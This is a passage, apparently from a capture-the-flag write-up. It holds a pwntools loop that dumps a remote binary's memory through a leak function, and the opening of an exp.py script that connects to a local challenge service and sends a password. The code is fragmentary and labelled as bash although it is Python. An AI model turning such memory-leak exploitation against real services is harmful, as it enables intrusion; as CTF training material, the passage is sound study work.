 ```bash
try:
    while True:

        data = leak(begin)
        begin = begin+len(data)
        bin += data
        if len(data)==0:
            begin+=1
            bin += '\x00'

except:
    print("finish")
finally:
    print '[+]',len(bin)
    with open('dump_bin','wb') as f:
        f.write(bin)

p.interactive()
```

## exp.py

```bash
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('127.0.0.1',5001)
def duan():
    gdb.attach(p)
    pause()
#duan()
#sl('%7$sdump'+p64(0x40000))
sla('Please enter your answer\n','F4atherw1t\0')
```